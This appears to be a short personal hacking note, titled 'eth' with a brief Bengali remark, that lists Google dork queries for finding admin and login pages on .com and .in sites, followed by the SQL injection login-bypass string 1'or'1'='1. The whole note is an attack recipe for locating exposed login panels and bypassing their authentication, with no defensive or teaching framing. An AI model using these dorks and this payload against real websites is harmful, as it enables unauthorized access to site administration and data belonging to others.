 # eth

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in
  - 1'or'1'='1
